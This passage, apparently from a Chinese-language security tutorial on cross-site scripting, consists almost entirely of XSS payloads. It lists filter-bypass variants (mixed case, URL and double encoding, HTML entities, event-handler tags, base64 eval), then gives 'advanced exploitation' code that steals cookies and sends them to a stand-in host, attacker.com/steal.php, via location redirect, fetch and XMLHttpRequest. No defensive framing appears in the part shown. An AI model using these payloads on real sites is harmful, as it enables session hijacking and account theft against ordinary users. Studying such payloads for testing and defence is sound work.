 ```javascript
# 大小寫混合
<ScRiPt>alert('XSS')</ScRiPt>

# 編碼繞過
%3Cscript%3Ealert('XSS')%3C/script%3E
&lt;script&gt;alert('XSS')&lt;/script&gt;

# HTML實體編碼
&#x3C;script&#x3E;alert('XSS')&#x3C;/script&#x3E;

# 雙重編碼
%253Cscript%253Ealert('XSS')%253C/script%253E

# 使用不同標籤
<img src="x" onerror="alert('XSS')">
<svg onload="alert('XSS')">
<iframe src="javascript:alert('XSS')">

# 事件處理程序
<div onclick="alert('XSS')">Click me</div>
<div onmouseover="alert('XSS')">Hover me</div>

# 無引號
<script>alert(String.fromCharCode(88,83,83))</script>

# 註釋繞過
<script>/*comment*/alert('XSS')</script>

# Base64編碼
<script>eval(atob('YWxlcnQoJ1hTUycpOw=='))</script>
```

**5.2.3 高級XSS利用技術**：

**Cookie竊取**：

```javascript
// 基本Cookie竊取
document.location='http://attacker.com/steal.php?cookie='+document.cookie;

// 使用fetch API
fetch('http://attacker.com/steal.php', {
    method: 'POST',
    body: 'cookies=' + encodeURIComponent(document.cookie)
});

// 使用XMLHttpRequest
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://attacker.com/steal.php');
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('cookies=' + encodeURIComponent(document.cookie));
```
